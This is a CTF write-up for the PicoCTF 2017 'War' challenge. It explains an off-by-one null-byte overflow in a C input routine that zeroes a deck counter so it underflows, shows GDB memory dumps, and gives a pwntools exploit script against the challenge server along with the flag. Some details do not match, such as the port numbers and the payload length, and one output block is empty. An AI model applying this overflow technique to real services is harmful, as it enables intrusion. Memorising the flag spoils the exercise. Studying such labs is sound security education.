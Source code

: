 # PicoCTF_2017: War

**Category:** Master
**Points:** 125
**Description:**

>Win a simple [Card Game](war). [Source](war.c). Connect on shell2017.picoctf.com:44698.

**Hint:**

>Bugs typically happen in groups. If you find one, what does it allow you to do?

## Write-up
Before I start, I would like to say that it took me 6 days for this challenge. For how surprisingly easy it was to solve at the end. Shame on me but now I shall redeem myself by shortening 6 days of agony to a writeup.

Firstly, we need to identify the bugs in this challenge, as it doesn't appear that there's anything buffer overflowable. By doing some rubber-ducking, we come across this function `readInput()`. I've done some rubber ducking here to give you a better view of things

    //Reads input from user, and properly terminates the string
    unsigned int readInput(char * buff, unsigned int len){ // For an example if betBuffer with len 8
        size_t count = 0;
        char c;
        while((c = getchar()) != '\n' && c != EOF){
            if(count < (len-1)){ // While count is 6 or less
                buff[count] = c;
                count++; // Count ++ means count becomes 7 here
            }
        }
        buff[count+1] = '\x00'; // Inputting a null byte to index 8? O.o <- THIS IS ARRAY OVERFLOW111!!!!11!1
        return count;
    }

Interesting, now we have the ability to erase one extra byte of anything after a buffer. Completely useless. Or is it? If we take a look at the two buffers that `readInput()` would read to, we come across these two buffers.

    char betStr[BETBUFFLEN];
    card * oppCard;

and
    
    char name[NAMEBUFFLEN];
    size_t deckSize;

Since we aren't too sure if the pointer for `oppCard` actually comes after the buffer in this scenario, let's target the `name` buffer. This calls for `GDB`.

First, let's try some input of just 31 bytes, to see a non-interrupted or overflowed memory region.

    AAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

    0x601800 <gameData+128>:    0x00000000  0x00000000  0x41414141  0x41414141
    0x601810 <gameData+144>:    0x41414141  0x41414141  0x41414141  0x41414141
    0x601820 <gameData+160>:    0x41414141  0x41410000  0x1a000000  0x00000000
    0x601830 <gameData+176>:    0x00000000  0x00000000  0x1a000000  0x00000000

The memory is in big-endian for viewing pleasure. So, we see a bunch of `41`s, representing our `A`. This is very helpful, and we also see a `1a` right afterwards. `1a` in hex, also equates to `26` in decimal. The only thing that's `26` in the code, is `deckSize`. Great, that matches up with our code. Now let's try breaking the array by 1.

    AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

    0x601800 <gameData+128>:    0x00000000  0x00000000  0x41414141  0x41414141
    0x601810 <gameData+144>:    0x41414141  0x41414141  0x41414141  0x41414141
    0x601820 <gameData+160>:    0x41414141  0x41414100  0x00000000  0x00000000
    0x601830 <gameData+176>:    0x00000000  0x00000000  0x1a000000  0x00000000

Where's the `1a` now? Turns out, it's been completely overwritten by the null byte. What does this mean? Where's the flag? Well, if there's a null byte for decksize, this part of the code helps us.

    //TODO: Implement card switching hands. Cheap hack here for playability
    gameData.deckSize--;
    if(gameData.deckSize == 0){
        printf("All card used. Card switching will be implemented in v1.0, someday.\n");
        exit(0);
    }

So, in this event, when we try to play a card, the memory region breaks because `0x0000000000000000` minus `1` = `0xffffffffffffffff`. Win.

    0x601800 <gameData+128>:    0x00000000  0x00000000  0x41414141  0x41414141
    0x601810 <gameData+144>:    0x41414141  0x41414141  0x41414141  0x41414141
    0x601820 <gameData+160>:    0x41414141  0x41414100  0xffffffff  0xffffffff
    0x601830 <gameData+176>:    0x00000000  0x00000000  0x1a000000  0x00000000

Theoretically, this means we are free to keep playing, since we are only limited by 100 coins or deck size of `26` which is now astronomically too big. So let's try to keep betting 1 till something happens. After the initial `26` cards, we are now left with 0 cards and this happens.

```python
 from pwn import *
HOST, PORT = 'shell2017.picoctf.com',7253
r = remote(HOST, PORT)
r.recv()
username = b'\x03' * 100
r.sendline(username)
r.recv()
for i in range(60):
    r.sendline(b'01')
    log.info(r.recv())

r.sendline(b'40')
log.info(r.recv())
r.sendline(b'80')
log.info(r.recv())
r.sendline(b'160')
log.info(r.recv())
r.sendline(b'200')
log.info(r.recv())
r.interactive()
r.close()
```
```text

```

Therefore, the flag is `04ab44dab3330a7633d9956b789f2769`.
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTYyNTc3NzUzMl19
-->